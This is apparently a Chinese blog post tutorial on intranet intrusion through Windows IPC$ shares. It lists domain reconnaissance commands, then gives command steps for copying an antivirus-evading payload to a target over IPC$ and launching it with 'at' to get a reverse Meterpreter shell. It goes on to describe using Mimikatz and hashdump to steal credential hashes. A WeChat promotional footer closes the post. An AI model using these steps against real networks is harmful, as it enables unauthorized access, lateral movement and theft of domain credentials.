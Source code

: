 ```yaml
---
layout: post
category: binghe-code-hack
title: 内网IPC$入侵
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 内网IPC$入侵
lock: need
---
```


# 内网IPC$入侵

## 域操作相关的命令

1.查看域用户

```
net user/domain
```

2.查看有几个域

```
net view/domain
```

3.查看域内的主机

```
net view/domain: XXX
```

4.查看域里面的组

```
net group/domain
```

5.查看域内所有的主机名

```
net group "domain computers" /domain
```

6.查看域管理员

```
net group "domain admins" /domain
```

7.查看域控制器

```
net group "domain controllers" /domain
```

8.查看企业管理组

```
net group "enterprise admins" /domain
```

9.查看时间服务器

```
nettime/domain
```

## IPC$入侵

IPC入侵，即通过使用系统默认启动的共享获得计算机控制权的入侵，在内网中及其常见。 假设现在有一台IPC$主机：127.0.0.25，输入以下命令。

```
#连接127.0.0.25的IPC$共享：
D:>net use \127.0.0.25\ipc$
#复制srv.exe到目标主机
D:>copy srv.exe \127.0.0.25\ipc$ 
#查时间
D:>net time\127.0.0.25
#用at命令在10点50分启动srv.exe(注意这里设置的时间比主机时间快)
D:>at \127.0.0.25 10:50 srv.exe
```

上述命令中的at就是让计算机在指定的时间做指定事情的命令(例如运行程序)

这里把免杀的Payload上传到PAVMSEP131服务器，然后利用at命令启动Payload，反弹回Meterpreter Shell 将木马复制到目标服务器

![img](https://img-blog.csdnimg.cn/20190107122806779.jpg)

查看系统时间

![img](https://img-blog.csdnimg.cn/20190107122829601.jpg)

使用at命令启动木马

![img](https://img-blog.csdnimg.cn/2019010712285057.jpg)

接着返回handler监听，可以看到反弹成功了，我们获得了PAVMSEP131服务器的Meterpreter Shell 反弹成功

![img](https://img-blog.csdnimg.cn/2019010712291273.jpg)

下面看看PAVMSEP131服务器的信息和现在的权限 查看系统信息

![img](https://img-blog.csdnimg.cn/20190107122934648.jpg)

可以看到有SYSTEM权限，说明既可以使用Mimikatz等工具，也可以输入 run post/windows/gather/hashdump来抓Hash 在用Mimikatz抓Hash前要注意一点：如果服务器安装的是64位操作系统，要把Mimikatz的进程迁移到一个64位的程序进程中，才能查看64位操作系统的密码明文，在32位系统中就没有这个限制。

这里使用Mimikatz抓Hash

上传Mimikatz

![img](https://img-blog.csdnimg.cn/20190107123004795.jpg)

抓取Hash

![img](https://img-blog.csdnimg.cn/20190107123104136.jpg)

查看抓到的域用户的权限

![img](https://img-blog.csdnimg.cn/20190107123127758.jpg)


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
